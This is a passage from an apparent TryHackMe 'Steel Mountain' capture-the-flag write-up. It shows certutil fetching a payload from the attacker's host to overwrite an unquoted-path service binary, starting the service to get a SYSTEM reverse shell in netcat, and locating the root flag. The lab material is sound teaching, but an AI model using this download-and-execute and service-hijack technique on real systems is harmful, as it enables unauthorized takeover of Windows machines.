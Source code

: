 Step 9 - Replace the ASCService.exe with our payload, I am again using certutil to write on the same file.

Note: Check path of the service and replace it correctly, I am already in same path hence certutil will overwrite, else overwrite manually .

```bash
C:\Program Files (x86)\IObit\Advanced SystemCare>certutil.exe -urlcache -split -f http://10.14.57.981:80/ASCService.exe
certutil.exe -urlcache -split -f http://10.14.57.81:80/ASCService.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

```

Step 10 - Now the File is replaced in the same path, start the service and get reverse_shell in netcat we made in step 7.

```bash
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

#Netcat Listner
abhinav@ETHICALHACKX:~/ctf/thm$ nc -nlvp 7777                            
listening on [any] 7777 ...
connect to [10.14.57.81] from (UNKNOWN) [10.10.23.6] 49396
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

We can see we are already  System User in the shell.

![TryHackMe - SteelMountain System User](/images/tryhackme-steelmountain-system-user.png)

## Root Flag.

Now that we are system user, lets get the flag.

```bash
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:/users/administrator/desktop
cd C:/users/administrator/desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
```